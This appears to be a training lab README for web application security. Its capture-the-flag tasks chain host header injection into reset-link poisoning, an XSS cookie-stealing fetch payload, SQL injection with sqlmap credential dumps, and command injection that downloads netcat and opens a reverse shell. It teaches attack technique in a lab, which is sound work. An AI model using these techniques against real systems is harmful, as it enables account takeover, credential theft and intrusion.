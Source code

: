 #  0. Welcome 

Welcome to Web Application Security Module \o/

Brief discussion:
```
+ Collegue:
-   Hear this, My Boss Just asked me for Customer Support Dashboard.
+ Me:
-   And ? For a Dashboard with Supports UI, Customers UI and Admin
    Portal will takes you at least 4 weeks.
+ Collegue:
-   I challenged him to do it within 3 days for reward ;)
+ Me:
-   Are you serious :O?
+ Collegue:
-   Yeah, I got Paid ChatGPT 4 by my side :'D
...
3 Days later.
...
+ Collegue:
-   I already finish it, Take a look my friend http://web0x00.hbtn!
+ Me:
-   Am I allowed to pentest it :p ?
+ Collegue:
-   Feel free, It's Hack Proof. I trust AI's Codes, \o/
```
Through this project we will guide you through exploiting 4 types of vulnerabilities which could occur within a web app :‘)

You should have:

- Pre-Installed Kali Linux (or Use a Sandbox)
- Access to our Network (Through OpenVPN or Sandbox)
- Web Browser (We Recommand FireFox)
- Terminal (For curl and sqlmap)

Warming Up:

- Get a Target Machine
- Endpoint : http://web0x00.hbtn/login
- Append to your Hosts file the domain web0x00.hbtn pointing to the target machine ip. 
- Test your connectivity 
```
ia terminal:
┌──(yosri㉿HBTN-LAB)-[~/0x00webfundamentals]
└─$ curl http://web0x00.hbtn
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/home">/home</a>. If not, click the link.
```
---

#  1. Can We Trust Our Hosts? 

Write a bash script that exploit host header injection using curl.

- Initial Endpoint : http://web0x00.hbtn/reset_password
- Your script should accept the NEW HOST as ARG 1 ("$1").
- Your script should accept the TARGET URL as ARG 2 ("$2").
- Your script should accept the FORM DATA as ARG 3 ("$3").
```
┌──(yosri㉿hbtn-lab)-[~/…/web_application_security/0x00_web_fundamentals]
└─$ ./1-host_header_injection.sh new_host http://web0x00.hbtn/reset_password email=test@test.hbtn
...
                                <div class="alert_box">
                                                <span>Email provided not found</span>
                                </div>
                                <button type="submit">Reset</button>
                                <a href="http://new_host/login">Try to sign in again ?</a>
```
---

#  2. Catch The FLAG #1 

Hints

- Check the Source-Code for known Customers emails
- A Bot will click the reset link delivered to the customer.
- The Flag will be displayed on the <header> section after you sign in as a Customer.

Find your IP in our network 
```
$ ip addr show tun0
16: tun0:  mtu 1500 qdisc fqcodel state UNKNOWN group default qlen 500
    link/none 
    inet 6.190.192.2/18 scope global tun0
       validlft forever preferredlft forever
    inet6 fe80::c749:5490:295:a827/64 scope link stable-privacy proto kernelll 
       validlft forever preferredlft forever
```
Open a HTTP server on the port 80 to listen for tampered clicks on all network interfaces. 
```
$ python3 -m http.server -b :: 80
Serving HTTP on :: port 80 (http://[::]:80/) ...
::ffff:172.17.0.2 - - [11/Nov/2023 10:20:58] code 404, message File not found
::ffff:172.17.0.2 - - [11/Nov/2023 10:20:58] "GET /reset_password/PvgpUt9ucmv5YvfH5yIpR7wnmUolgzEJ HTTP/1.1" 404 -
```
- Initial Endpoint : http://web0x00.hbtn/login
---

#  3. Stealing Cookies from Managers is delicious ! 

Create a JavaScript payload that exploits Cross-Site Scripting (XSS) vulnerabilities within a ticketing system.

- Craft your payload using JavaScript.
	- It must be encapsulated within <script> tags.
	- Example format for your payload file: 
```
$ cat 3-xss_payload.txt
<script>// Your JavaScript code goes here</script>
```
- Your code should be as short as possible.
- You are not allowed to declare any variables within your payload.
- Your payload must utilize the fetch function to send the cookies of the ticket system’s visitor.
- The cookies should be included in the request’s pathname and sent to your designated web server.
		- Example: http://[your_ip]/.session=Tm90aGluZyBIZXJl]
- Initial Endpoint : http://web0x00.hbtn/login
---

#  4. Catch The FLAG #2 

Hint

- A Bot will load the ticket as a Support and response to it.
- Never forget that the XSS Payload will load on your side too !
- The Flag will be displayed on the <header> section after you sign in as a Support.

To Change your cookies, steps are simple:
```
Via FireFox:

-> Hit F12 (open dev tools)
-> Got to Storage (top menu)
-> Select Cookies
-> Change Value
```
---

#  5. Can we trust our Managers ? 

Here we are now, logged as a Support member. Now we can check tickets and reply to them!
What’s more interesting ? Yes! the Ticket ID which smell like SQLi \o/

- Write a text file containing the HTTP Request to exploit the potential SQL Injection in the ‘Ticket ID’ parameter.

Dev Tools -> Network, is the best path to go 
```
┌──(yosri㉿hbtn-lab)-[~/…/webapplicationsecurity/0x00webfundamentals]
└─$ sqlmap -r 5-ticket.txt
        ___
       H
 ___ [']__ ___ ___  {1.7.10#stable}
|--|.["]|.'|.|
||["]||_|,|__|
      ||V...       |_|   https://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] starting @ 09:31:09 /2023-11-13/
[09:31:09] [INFO] parsing HTTP request from '5-ticket.txt'
[09:31:10] [INFO] testing connection to the target URL
[09:31:10] [INFO] testing if the target URL content is stable
[09:31:10] [INFO] target URL content is stable
[09:31:10] [INFO] testing if GET parameter 'id' is dynamic
got a 302 redirect to 'http://web0x00.hbtn/support'. Do you want to follow? [Y/n]
```
- -Target Machine - Initial Endpoint : http://web0x00.hbtn/support
---

#  6. Catch The FLAG #3 

Hints

- You will need the file 5-ticket.txt from the previous task.
- For the admin credentials, they could be at Admins Table. SQLmap could --dump it for you.
- You could find the Admin login page at http://web0x00.hbtn/admin.
- The Flag will be displayed on the <header> section after you sign in as an Admin.
- Target Machine
- Initial Endpoint : http://web0x00.hbtn/admin

---

#  7. Why would an Admin have such a function ? 

Welcome to Admin Panel ! Things are getting dangerous here..
As we notice, there is a ping check function, which the admin use to up devices.

Write a payload that exploits poor input validation to achieve Remote Code Execution (RCE):

- Ensure there are no unnecessary spaces.
- Ensure your payload does exactly the following:
	- 1. Download the nc static binary using wget from https://github.com/yunchih/static-binaries/raw/master/nc.
	- 2. Grant execute permission to nc.
	- 3. Display the nc version using the -V option.
---

#  8. Catch The FLAG #4 
Hints

- Start a listner for reverse shell.
- ./nc to use netcat from the previous task.
- The Flag could be found at root‘s home directory

